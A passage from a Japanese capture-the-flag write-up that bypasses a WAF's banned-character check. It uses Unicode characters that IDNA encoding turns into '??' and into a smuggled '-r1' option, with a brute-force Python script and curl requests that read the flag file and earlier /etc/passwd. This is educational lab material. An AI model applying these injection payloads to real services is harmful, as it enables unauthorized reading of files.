 ```bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
~ 略 ~
```
ただし、 `?` は `bad_chars` として禁止されている。
ここで、Multibyte Characters Sanitizerの突破において、利用可能な記号を調査した際の出力に `8263: ??` があったことを思い出す。
これを `?` として利用できないだろうか？
以下のとおり試す。
```python
$ python
>>> f"filⓔ:///var/www/flag{chr(8263)}.{chr(168)}".encode("idna").decode()
'file:///var/www/flag??.xn-- -ccb'
```
上手く `?` として機能しているようだ。
最後にオプションを `-rX` の形にする必要がある。
実際は厳密に計算できるのだが、今回は総当たりを試みる。
文字列の内容にではなく長さに依存することより、文字数を増やしながらスペースが含まれる文字を探索する。
```python
for i in range(0x3f):
    for j in range(0xffff):
        try:
            url = f"filⓔ:///var/www/flag{chr(8263)}.{'a'*i}{chr(j)}".encode("idna").decode()
            if (" " in url) and ("r" in url.split(" ")[1]):
                print(url)
                print(f"filⓔ:///var/www/flag{chr(8263)}.{'a'*i}{chr(j)}")
        except Exception as e:
            #print(e)
            continue
```
実行すると大量の結果のうち、以下の出力が得られる。
```text
file:///var/www/flag??.xn--aaaaaaaaaaaaaaaaaaaaa -r1m
filⓔ:///var/www/flag⁇.aaaaaaaaaaaaaaaaaaaaa˛
```
`-r1` が上手く出てきている。
以下のとおりこれを投げてやれば、WAFを突破してflagが取得できる。
```bash
$ curl 'http://localhost:31415?url=filⓔ:///var/www/flag'
Hi, Hacker !!!!
$ curl 'http://localhost:31415?url=filⓔ:///var/www/flag⁇.aaaaaaaaaaaaaaaaaaaaa˛'
icSec{mul71by73_ch4r4c73r5_5upp0r7_15_4_lurk1n6_vuln3r4b1l17y}
```

## RicSec{mul71by73_ch4r4c73r5_5upp0r7_15_4_lurk1n6_vuln3r4b1l17y}














